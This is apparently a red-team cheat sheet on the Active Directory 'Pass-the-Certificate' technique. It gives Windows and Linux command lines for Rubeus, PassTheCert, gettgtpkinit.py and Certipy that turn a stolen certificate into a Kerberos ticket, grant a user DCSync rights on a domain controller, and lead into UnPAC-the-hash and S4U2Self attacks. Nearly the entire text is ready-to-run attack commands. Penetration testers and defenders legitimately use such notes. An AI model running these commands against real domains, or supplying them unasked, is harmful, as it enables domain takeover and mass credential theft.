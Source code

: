 # Pass-the-Certificate

### Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

## Windows

#### 1) Information about a cert file

 - certutil -v -dump admin.pfx

#### 2) From a base64 PFX

 - Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASS"

#### 3) Grant DCSync rights to a user

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --dcsync

#### 4) To restore

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --restore

## Linux

#### 1) Base64-encoded PFX certificate (string) (password can be set)

 - gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 2) PEM certificate (file) + PEM private key (file)

 - gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 3) PFX certificate (file) + password (string, optionnal)

 - gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 4) Using Certipy

 - certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'

 - certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"

### The ticket obtained can then be used to

#### 1) Authenticate with pass-the-cache

#### 2) Conduct an UnPAC-the-hash attack. This can be done with getnthash.py from PKINITtools.

#### 3) Obtain access to the account's SPN with an S4U2Self. This can be done with gets4uticket.py from PKINITtools.

## Alternate Method: PassTheCert https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py

#### 1) Extract key and cert from the pfx

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

#### 2) Elevate a user for DCSync with passthecert.py

 - passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
